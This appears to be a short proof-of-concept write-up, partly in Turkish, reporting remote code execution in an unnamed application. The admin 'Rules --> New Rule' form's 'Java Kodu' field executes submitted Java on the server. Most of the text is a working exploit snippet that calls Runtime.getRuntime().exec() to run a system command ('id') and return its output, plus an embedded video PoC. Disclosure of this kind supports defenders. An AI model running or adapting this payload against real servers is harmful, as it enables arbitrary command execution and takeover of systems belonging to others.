


After logging into the application interface with the admin user, access was provided to the "Rules --> New Rule" form field.



"Java Kodu" alanına Runtime.getRuntime().exec() metodunu kullanarak sistem komutları içeren kodlar sunucu tarafında işlenerek remote code execution zafiyetine sebep olmaktadır.



## 💻 Exploit Code
```java
import org.json.simple.*;

JSONObject jsonObject = new JSONObject();

try {
    // Runtime ile komut çalıştır
    Runtime runtime = Runtime.getRuntime();
    Process process = runtime.exec("id");
    
    java.io.BufferedReader reader = new java.io.BufferedReader(
        new java.io.InputStreamReader(process.getInputStream())
    );
    
    String line;
    StringBuilder output = new StringBuilder();
    while((line = reader.readLine()) != null) {
        output.append(line).append("\n");
        logger.info("OUTPUT: " + line);
    }
    
    jsonObject.put("status", "SUCCESS");
    jsonObject.put("output", output.toString());
    
} catch(Exception e) {
    logger.error("Error", e);
    jsonObject.put("status", "FAILED");
    jsonObject.put("error", e.getMessage());
}

return jsonObject;
```

--- Video POC ---
<video width="100%" controls>
  <source src="proof_iga.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video>


